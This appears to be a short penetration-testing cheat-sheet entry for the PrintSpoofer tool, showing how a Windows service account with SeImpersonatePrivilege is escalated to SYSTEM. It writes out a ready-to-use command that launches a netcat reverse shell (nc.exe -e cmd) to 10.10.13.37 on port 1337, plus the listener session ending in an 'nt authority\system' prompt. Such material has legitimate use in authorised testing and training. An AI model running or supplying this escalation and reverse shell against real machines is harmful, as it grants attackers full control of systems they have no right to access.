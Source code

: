 # PrintSpoofer [https://github.com/itm4n/PrintSpoofer]
Service Account (IIS/MSSQL) got privilge SeImpersonatePrivilege 

Create a reverse shell:

C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK

Netcat listener:

C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system

